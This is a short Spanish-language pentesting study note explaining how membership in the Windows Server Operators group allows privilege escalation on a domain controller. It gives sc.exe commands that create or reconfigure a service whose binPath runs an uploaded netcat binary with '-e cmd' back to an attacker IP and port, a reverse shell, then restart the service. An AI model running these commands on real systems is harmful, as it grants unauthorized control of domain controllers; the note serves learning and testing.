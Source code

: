 -----
- Tags:  #windows #teoria #practica #basico 
- -----

# Grupo Server Operators 

### Los miembros del grupo **Server Operators** pueden administrar el DC. Este grupo existe solo en los DC. Por default no tiene miembros y permite a los miembros ejecutar las siguientes acciones:

- ### Loguearse al server interactivamente. 
- ### Crear y elimintar recursos compartidos a nivel de red. 
- ### Iniciar y detener servicios. 

----

# Escalada 

### La escalada de privilegios en este caso se da a raiz de que un usuario pertenezca al grupo **Server Operators** de manera que entendemos que dentro de varíos permisos que contiene, puede **iniciar** y **detener** servicios. Lo que en caso de que hayan servicios existentes (O no) conlleva un riesgo. 

### En caso de que hayan servicios existentes o no, lo primero que podemos hacer es intentar crear nuestro propio servicio para abusar del **binPath** para cargar una instrucción que queremos que se realize a la hora de inicializar el servicio. 

### Podríamos subir a la máquina Windows vulnerada el binario de **netcat** para alojarlo en una ruta, por ejemplo **C:\Users\Dobliuw\Desktop\nc.exe** y una vez alojado, crear un servicio para abusar del binPath: `sc.exe create {name} binPath="C:\Users\Dobliuw\Desktop\nc.exe -e cmd {ip} {port}"`

### En caso de que no podramos crear un servicio, podríamos intentar cambiar la configuración de un servicio existente (Comando `services` para listar los servicios) creado con`sc.exe config {ServiceName} binPath "C:\Users\Dobliuw\Desktop\nc.exe -e cmd {ip} {port}"`.

### Una vez más, en caso de que no podrámos editar la configuración de un servicio, lo que podríamos hacer es probar con todos y ver si en algun momento nos permite editar la configuración de alguno. 

### Ahora si, una vez lograda la edición de la configuración de un servicio o hayamos podido crear el nuestro con el binPath malicioso, simplemente podríamos detener el servicio y levantarlo para abusar de estos privilegios del grupo. 

### `sc.exe stop/start {ServiceName}`
